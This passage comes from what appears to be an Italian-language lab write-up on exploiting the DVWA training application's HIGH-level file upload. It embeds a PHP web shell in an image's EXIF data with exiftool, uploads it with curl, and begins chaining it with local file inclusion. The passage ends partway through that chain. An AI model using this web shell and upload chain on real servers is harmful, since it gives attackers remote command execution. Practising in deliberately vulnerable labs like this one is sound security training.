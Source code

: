 **Step 2 - EXIF Payload Injection**:
```bash
exiftool -Comment='<?php system($_GET["cmd"]); ?>' base_image.jpg -o malicious.jpg
```

**Step 3 - Payload Verification**:
```bash
# Verifica che l'immagine sia ancora valida
getimagesize malicious.jpg
# Should return: Array ( [0] => width [1] => height [2] => 2 [3] => ... )

# Verifica che il payload sia presente
exiftool malicious.jpg | grep Comment
# Output: Comment: <?php system($_GET["cmd"]); ?>
```

#### Upload Process

**cURL Command con Session Management**:
```bash
curl -v \
-b "PHPSESSID=xyz789abc123def456" \
-F "uploaded=@malicious.jpg;type=image/jpeg" \
-F "Upload=Upload" \
http://192.168.1.100/DVWA/vulnerabilities/upload/
```

**Success Response**:
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8

./../hackable/uploads/malicious.jpg successfully uploaded!
```

#### Local File Inclusion (LFI) Integration

Il livello HIGH richiede una combinazione di vulnerabilità per essere sfruttato completamente.

**LFI Vulnerability Background**:
Local File Inclusion è una vulnerabilità che permette di includere file locali dal server nelle pagine web. DVWA include una sezione LFI vulnerabile che può essere sfruttata per eseguire il nostro payload EXIF.

**DVWA HIGH LFI Restrictions Analysis**:
Analizzando il codice sorgente di DVWA HIGH, le restrizioni LFI includono:
- File devono iniziare con "file"
- O essere esattamente "include.php"
- Path traversal limitato

#### Successful Exploitation Chain

**Step 1 - File Naming Strategy**:
```bash
# Rinomina dell'immagine per rispettare le restrizioni LFI
cp malicious.jpg file.jpg

# Upload del file rinominato
curl -v \
-b "PHPSESSID=session_id_123" \
-F "uploaded=@file.jpg;type=image/jpeg" \
-F "Upload=Upload" \
http://192.168.1.100/DVWA/vulnerabilities/upload/
```
